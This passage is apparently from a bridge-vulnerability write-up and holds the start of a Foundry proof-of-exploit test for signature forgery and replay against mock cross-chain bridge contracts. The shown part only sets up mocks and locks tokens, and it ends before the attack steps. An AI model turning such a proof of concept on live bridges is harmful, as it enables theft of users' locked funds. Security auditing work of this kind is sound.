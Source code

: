 ![ replay Exploit Flow](/Replay-Bridge.svg)

## Proof of Exploit: Foundry Test
The following tests demonstrate the signature forgery and replay vulnerabilities using Foundry.

```solidity {"1":40} {"2":57} {"3":61} {"1":71} {"2":88} {"3":92} {"4":97}
// SPDX-License-License-Identifier: MIT
pragma solidity ^0.8.30;

import "forge-std/Test.sol";
import "@openzeppelin/contracts/utils/cryptography/MessageHashUtils.sol";
import "../src/SourceBridge.sol";
import "../src/DestinationBridge.sol";
import "../src/MockMintableERC20.sol";

contract DoctorStrangeCrossChainExploit is Test {
    SourceBridge sourceBridge;
    DestinationBridge destBridge;
    MockMintableERC20 mockToken;
    address spiderMan = makeAddr("SpiderMan");
    address doctorStrange = makeAddr("DoctorStrange");
    uint256 validatorPk = 0xBEEF; // Real private key
    address validator;
    bytes32 bridgeId = keccak256("MultiverseBridge");

    function setUp() public {
        validator = vm.addr(validatorPk); // Derive address from PK
        mockToken = new MockMintableERC20("mETH", "mETH");
        sourceBridge = new SourceBridge(address(mockToken));
        destBridge = new DestinationBridge(validator, address(mockToken));

        // Fund Spider-Man
        mockToken.mint(spiderMan, 1000);
        
        // Verify Spider-Man's balance
        assertEq(mockToken.balanceOf(spiderMan), 1000, "Spider-Man should have 1000 mETH");
    }

    function signMessage(bytes32 messageHash, uint256 pk) internal pure returns (bytes memory) {
        bytes32 ethSignedMessageHash = MessageHashUtils.toEthSignedMessageHash(messageHash);
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(pk, ethSignedMessageHash);
        return abi.encodePacked(r, s, v);
    }

    function testSignatureForgery() public {
        // Step 1: Spider-Man approves and locks 1,000 mETH
        vm.startPrank(spiderMan);
        mockToken.approve(address(sourceBridge), 1000);
        
        // Verify allowance
        assertEq(mockToken.allowance(spiderMan, address(sourceBridge)), 1000, "SourceBridge should have 1000 mETH allowance");
        
        sourceBridge.lockFunds(1000, 1);
        vm.stopPrank();

        // Verify lock
        assertEq(sourceBridge.totalLocked(), 1000, "SourceBridge should have 1000 mETH locked");
        assertEq(mockToken.balanceOf(address(sourceBridge)), 1000, "SourceBridge should hold 1000 mETH");

        // Simulate event data
```